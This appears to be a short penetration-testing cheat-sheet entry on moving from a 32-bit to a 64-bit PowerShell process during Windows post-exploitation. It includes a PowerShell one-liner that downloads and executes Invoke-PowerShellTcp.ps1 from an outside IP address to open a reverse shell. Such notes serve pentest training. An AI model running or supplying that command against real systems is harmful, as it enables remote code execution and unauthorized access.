 # Windows Migrating Process

## PowerShell Migrating Process

This is a technique to migrate from a 32-bit process to a 64-bit one. It should be said that this procedure is important for the correct enumeration of the system because if it is included in a process that does not run under the architecture of the machine, then post-exploitation tools, will give a bunch of false positives. Knowing with what architecture we are dealing with both the operating system and the process level, we can do it via Powershell, obtaining **True** or **False** depending on whether it is true or not through the following queries.

Operating System Architecture

```
[Environment]::Is64BitOperatingSystem
```

Process Architecture

```
[Environment]::Is64BitProcess
```

If we see that it is a 64-bit operating system, and the statement `[Environment]::Is64BitProcess` returns a **False**, the only thing we will have to do is, for example, winning a session by Powershell and invoke it from the following path:

```
C:\Windows\SysNative\WindowsPowerShell\v1.0\Powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.10.15:443/Invoke-PowerShellTcp.ps1')
```

In the new reverse shell. If we check again which process we are in, we can see that this time the query`[Environment]::Is64BitProcess` will return a **True**, and we can now continue with the enumeration at the system level.

